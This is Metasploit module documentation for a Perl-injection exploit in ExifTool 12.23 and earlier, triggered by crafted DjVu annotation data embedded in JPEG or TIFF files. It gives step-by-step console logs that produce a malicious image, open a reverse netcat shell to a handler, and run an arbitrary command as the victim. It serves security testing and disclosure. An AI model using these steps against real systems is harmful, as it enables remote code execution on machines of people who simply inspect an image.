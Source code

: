 
## Vulnerable Application

ExifTool is vulnerable to Perl injection when parsing a crafted DjVu ANT (Annotation) section. Using the
'HasselbladExif' EXIF field, a DjVu file containing the ANT data can be embedded in another file, such as a JPEG or
TIFF file. Upon passing a crafted DjVu file or a "wrapped" DjVu file to ExifTool, arbitrary Perl code can be executed.

Perl backticks are used to execute shell commands.

The vulnerability affects ExifTool 7.44 through 12.23 inclusive.

A copy of the vulnerable software can be obtained at <https://github.com/exiftool/exiftool/releases/tag/12.23>

The `.tar.gz` can simply be unpacked and used as-is:

```plain
% tar -xf 12.23.tar.gz 

% ./exiftool-12.23/exiftool exiftool-12.23/t/images/Writer.jpg
ExifTool Version Number         : 12.23
File Name                       : Writer.jpg
Directory                       : exiftool-12.23/t/images
File Size                       : 251 bytes
File Modification Date/Time     : 2021:04:02 05:24:21+11:00
File Access Date/Time           : 2021:05:04 20:57:46+10:00
File Inode Change Date/Time     : 2021:05:04 20:57:46+10:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 8
Image Height                    : 8
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 8x8
Megapixels                      : 0.000064
```

## Verification Steps

1. Obtain the vulnerable application
2. Start `msfconsole`
3. Do: `use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection`
4. Set the payload and payload options as appropriate
5. Do: `exploit`
6. Start a handler
7. Transfer the generated `msf.jpg` file to the machine running the vulnerable application
8. On the victim machine, do `exiftool msf.jpg`
9. You should get a shell

## Options

* `TARGET` - you can choose between JPEG (Default), TIFF and DjVu
* `FILENAME` - the name of the image file to produce. Note that it is safe to rename a file after it has been generated.

## Scenarios

### ExifTool 12.23 - Reverse TCP shell

Generate the image file

```plain
msf > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LPORT 4444
LPORT => 4444
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > exploit

[+] msf.jpg stored at /home/justin/.msf4/local/msf.jpg
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```

Start a handler

```plain
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
```

As the victim, use ExifTool to analyse the image

```plain
% ~/exiftool-12.23/exiftool /home/justin/.msf4/local/msf.jpg
```

ExifTool will hang and a shell session will be opened

```plain
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:38606) at 2021-05-04 21:07:37 +1000

id
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

### ExifTool 12.23 - Arbitrary command execution

Generate the image file

```plain
msf > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set PAYLOAD cmd/unix/generic 
PAYLOAD => cmd/unix/generic
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set CMD 'echo "Pwned as $(id)"'
CMD => echo "Pwned as $(id)"
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > exploit

[+] msf.jpg stored at /home/justin/.msf4/local/msf.jpg
msf exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```

As the victim, use ExifTool to analyse the image. The STDOUT of CMD will be reflected in the 'Author' EXIF field.

```plain
% ~/exiftool-12.23/exiftool /home/justin/.msf4/local/msf.jpg | grep Author
Author                          : .Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo).
```
